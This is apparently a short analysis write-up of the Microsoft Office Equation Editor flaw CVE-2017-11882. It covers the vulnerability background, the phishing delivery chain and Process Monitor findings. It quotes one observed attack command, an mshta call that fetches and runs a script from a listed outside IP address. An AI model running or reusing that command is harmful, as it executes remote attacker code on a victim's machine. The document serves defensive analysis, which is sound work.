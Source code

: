 # Microsoft Office Memory Corruption (CVE-2017-11882)
### Background
* __Age__: 17 year old vulnerability
* __What is it__: Run arbitrary code remotely without user interaction
* __Why it works__: Buffer overflow vulnerability inside equation editor (EQUEDT32.exe)
* __Who has been affected__: Users who installed
  * Microsoft Office 2007 Service Pack 3
  * Microsoft Office 2010 Service Pack 2 
  * Microsoft Office 2013 Service Pack 1 
  * Microsoft Office 2016
* __CVSS__:
  * The Common Vulnerability Scoring System
  * The score is 7.8 (high)
  * Really dangerous & should be fixed ASAP

### It always starts from the internet phishing...
1.	A spam __email__
2.	An __attachment__
3.	A __.doc file__ in Rich Text Format (RTF)
4.	__Microsoft Office__ will automatically open it

### Process Monitor
###### It is an [advanced monitoring tool for Windows](https://nvd.nist.gov/vuln-metrics/cvss).
###### It is used to monitor and display all the activities of file system in real-time. [reference 1](https://en.wikipedia.org/wiki/Process_Monitor)
* unexpected operation named 'EQNEDT32.EXE'
* command line has been called
* (very like) a malicious host - 'mshta http://104.254.99.77/x.txt' 


### Burp Suite
###### It is a [web vulnerability scanner](https://portswigger.net/burp).
###### It is a set of tools used for penetration testing of web applications. [reference 2](https://www.geeksforgeeks.org/what-is-burp-suite/g)
